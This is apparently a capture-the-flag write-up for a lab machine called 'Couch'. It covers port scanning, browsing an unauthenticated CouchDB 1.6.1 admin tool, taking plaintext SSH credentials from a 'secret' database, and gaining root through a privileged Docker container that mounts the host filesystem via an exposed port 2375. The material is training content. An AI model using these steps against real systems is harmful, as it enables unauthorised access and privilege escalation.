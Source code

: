 ```yaml
---
title: "Couch"
tags:
  - Easy
  - Linux
  - nmap
  - CouchDB
  - netstat
  - docker
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|    Easy    |  | 10.10.186.236 |  |

---

### [ Scan the machine. How many ports are open? ]

Let's start things off with a full `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.186.236
```

**Results:**

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
| ssh-rsa 
[REDACTED]
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack ttl 61 CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there are only 2 ports open: **22 (SSH)** and **5984 (CouchDB)**

---

### [ What is the database management system installed on the server? ]

**CouchDB** is the database management system that is installed on the server.

*(Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang)*

---

### [ What port is the database management system running on? ]

It is running on port **5984**.

---

### [ What is the version of the management system installed on the server? ]

From the nmap scan, we can see that it is running **version 1.6.1** of CouchDB.

---

### [ What is the path for the web administration tool for this database management system? ]

Doing some research online, I found the following [documentation](https://guide.couchdb.org/draft/tour.html):

![screenshot1](../assets/images/couch/screenshot1.png)

The path for the web administration tool is: **_utils**

---

### [ What is the path to list all databases in the web browser of the database management system? ]

Apart from using the web administration tool to explore the database, we can also query the database directly using `curl`. The different paths that we can query can be found [here](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb).

The path to list all databases is: **_all_dbs**

---

### [ What are the credentials found in the web administration tool? ]

Let's use CouchDB's web administration tool by visiting `http://10.10.186.236:5984/_utils/`

![screenshot2](../assets/images/couch/screenshot2.png)

Fortunately for us, authentication is not required and we are able to access the entire database.

Let's take a look at the **secret** database:

![screenshot3](../assets/images/couch/screenshot3.png)

There is a single entry. Inspecting the entry reveals a set of credentials:

![screenshot4](../assets/images/couch/screenshot4.png)

Credentials:

> atena : t4qfzcc4qN##

---

### [ Compromise the machine and locate user.txt ]

Now that we have a set of credentials, we can try to use it to log into other services on the target machine. In this case, the only other service running is SSH:

![screenshot5](../assets/images/couch/screenshot5.png)

Nice, the credentials worked! We are now logged in as the user **atena**.

**user.txt** can be found in the home directory of atena:

![screenshot6](../assets/images/couch/screenshot6.png)

---

### [ Escalate privileges and obtain root.txt ]

Now let's escalate our privileges.

I checked for various privesc vectors, such as exploitable SUID-bit files and misconfigured sudo privileges, but was unable to find anything usable.

I spent some time at this enumeration stage before noticing something interesting when checking active TCP connections using `netstat`:

```
netstat -plnt
```

`-p`: display PID/Program name for sockets

`-l`:  display listening server sockets

`-n`: don’t resolve names

`-t`: TCP only

![screenshot7](../assets/images/couch/screenshot7.png)

Here, we can see that port **2375** is currently listening for incoming connections. This port is the default port for the **docker** service!

A common docker exploit is to start a privileged container using the **alpine** image, then mount the actual filesystem onto the container. This will then allow us to access the actual filesystem as root by navigating through the container.

To do this, we run the following command:

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

![screenshot8](../assets/images/couch/screenshot8.png)

With that, we are now root!

To access the **root directory** on the actual filesystem, we navigate to **/mnt** on the container:

![screenshot9](../assets/images/couch/screenshot9.png)

**root.txt** can then be found in the /root directory *(/mnt/root on the container*):

![screenshot10](../assets/images/couch/screenshot10.png)


